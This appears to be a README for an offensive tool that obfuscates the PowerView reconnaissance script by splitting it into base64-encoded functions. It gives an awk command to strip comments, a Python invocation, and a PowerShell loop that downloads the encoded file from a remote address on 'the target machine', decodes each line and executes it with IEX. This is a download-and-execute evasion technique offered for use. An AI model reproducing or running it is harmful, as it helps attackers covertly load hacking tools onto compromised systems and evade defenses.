  
# How it works
The idea is to split the ps1 script into functions, base64 encode all functions and dump that into a file. Then load the file with powershell and loop through all the lines, base64 decode and IEX. Profit!

# Clean the powershell script
Remove all the comments and docs
```
awk '/<#/{flag=0;next}/#>/{flag=1}flag' PowerView.ps1 > pv.ps1
```

The python script takes care of removing the inline comments (starts with `#`)

# Run
```
python PyPowerSplit.py pv.ps1 > p
```

# Powershell (run.ps1)
To run the code, run this on the target machine. Change the address accordingly.
```
ForEach ($line in $((New-Object Net.WebClient).DownloadString('http://192.168.0.248:5555/p') -split "\n"))
{
    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($line)) | IEX
}
```